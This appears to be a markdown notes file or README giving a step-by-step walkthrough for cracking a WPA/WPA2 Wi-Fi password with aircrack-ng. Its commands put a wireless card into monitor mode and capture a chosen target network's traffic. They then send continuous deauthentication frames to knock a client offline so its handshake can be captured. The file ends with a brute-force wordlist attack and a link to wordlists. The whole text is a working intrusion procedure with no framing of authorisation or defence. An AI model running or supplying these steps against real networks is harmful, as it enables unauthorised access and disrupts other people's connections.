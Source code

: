 # WPA/WPA2 Wifi Password Hack w/ Aircrack-ng

## Sources : 
- https://www.youtube.com/watch?v=zAWcu3NQLME&list=PL7WXNOcf6zc0V5rydTqW6Qymm6lnrt33T&index=2

## ONLINE PART

- display network interfaces availables on the machine (common names : wlan0 / wlo1 ...) :
```
iwconfig
```
- display more details about the interface :
```
ifconfig [interface name]
```
- display availables wireless interfaces :
```
airmon-ng
```

`We now want to change the "Managed Mode" into "Monitor Mode" for the purpose of packets capture`

- change our wireless card mode :
```
airmon-ng start [interface name]
```
- check if the mode change worked, the interface name should now end with "mon" :
```
iwconfig
```
- grabbing packets on this interface (channel hopping) :
```
airodump-ng [new interface name]
```

`We have now multiple lines showing availables Wi-Fi in the area, with many informations, we can stop the command when the target appears`

`Keep the terminal open with the informations, we need the BSSID and the channel "CH"`

- Use Airodump to monitor only the target Wi-Fi network :
```
airodump-ng -c [channel number] -d [target BSSID] -w capture [interface name]
```

`We now need to choose one of the clients of the targeted Wi-Fi (know as stations in the terminal) and knock its connection down so that when he try to reconnect, we intercept the WPA handshake to perfom an offline dictionnary attack`

`(do not stop the previous command since it's displaying a msg when the following commands gets what we want -> capture WPA handshake)`


- knock one of the clients connection down :
```
aireplay-ng --deauth 0 -a [router BSSID] -c [client BSSID] [monitor interface]
```

`Wait until the WPA handshake or the PMKID appears on the airodump command then stop the two`

`You have now the capture files`

- make sure you switch your interface back in managed mode : :
```
airmon-ng stop [interface name]
```

## OFFLINE PART

- Brute force attack on the capture file :
```
aircrack-ng [captureFile.cap] -w [wordlist]
```

## Some wordlists availables :
- https://hackntricks.fr/4-wordlists-pour-brute-force-un-mot-de-passe/